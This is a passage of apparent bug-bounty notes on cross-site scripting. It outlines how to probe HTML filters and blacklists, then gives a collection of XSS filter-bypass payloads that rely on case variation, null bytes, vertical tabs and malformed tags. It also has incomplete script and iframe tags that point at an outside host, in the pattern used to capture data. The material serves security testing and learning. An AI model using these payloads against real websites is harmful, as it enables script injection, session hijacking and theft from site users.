 - **Objective:** Understand the filtering logic used by the developer.
- **Identify Filter Patterns:**
    - Check if specific tags like `<script>`, `<iframe>`, and attributes like `onerror=` are filtered.
    - Look for partial or incomplete tag handling (`<script src=//mysite.com?c=`).
- **Blacklist Analysis:**
    - Determine if a blacklist of bad HTML tags is used.
    - Check for forgotten tags or attributes (e.g., `<svg>`).
    - Investigate if the same filter is applied elsewhere in the web application.
- **Encoding Handling:**
    - Test various encodings (`<%00iframe`, `on%0derror`, `%0d`, `%0a`, `%09`).
    - Try different combinations and formats to explore potential bypasses.

#### Testing for XSS Flow
- **Non-malicious HTML Tags:** Test how tags like `<h2>` are handled.
- **Incomplete Tags:** Test incomplete tags like `<iframe src=//zseano.com/c=`.
- **Encodings:** Test with different encodings (`<%00h2`, `%0d`, `%0a`, `%09`).
- **Blacklist Bypass:**
    - Test if variations like `</script/x>`, `<ScRipt>` are filtered.
    - Try different case variations and malformed tags.

#### Resources for Further Learning
- **Payloads:** Find common payloads for XSS bypass on [zseano.com](https://www.zseano.com/).
- **Cheat Sheet:** Refer to the [Browser's XSS Filter Bypass Cheat Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet) for more techniques.
---
### Payloads
- A ghetto collection of XSS payloads that I find to be useful during penetration tests, especially when faced with WAFs or application-based black-list filtering, but feel free to disagree or shoot your AK-74 in the air.

```html
Simple character manipulations.  
Note that I use hexadecimal to represent characters that you probably can't type.  For example, \x00 equals a null byte, but you'll need to encode this properly depending on the context (URL encoding \x00 = %00).

HaRdc0r3 caS3 s3nsit1vITy bYpa55!
<sCrIpt>alert(1)</ScRipt>
<iMg srC=1 lAnGuAGE=VbS oNeRroR=mSgbOx(1)>

Null-byte character between HTML attribute name and equal sign (IE, Safari).
<img src='1' onerror\x00=alert(0) />

Slash character between HTML attribute name and equal sign (IE, Firefox, Chrome, Safari).
<img src='1' onerror/=alert(0) />

Vertical tab between HTML attribute name and equal sign (IE, Safari).
<img src='1' onerror\x0b=alert(0) />

Null-byte character between equal sign and JavaScript code (IE).
<img src='1' onerror=\x00alert(0) />

Null-byte character between characters of HTML attribute names (IE).
<img src='1' o\x00nerr\x00or=alert(0) />

Null-byte character before characters of HTML element names (IE).
<\x00img src='1' onerror=alert(0) />

Null-byte character after characters of HTML element names (IE, Safari).
<script\x00>alert(1)</script>

Null-byte character between characters of HTML element names (IE).
<i\x00mg src='1' onerror=alert(0) />
```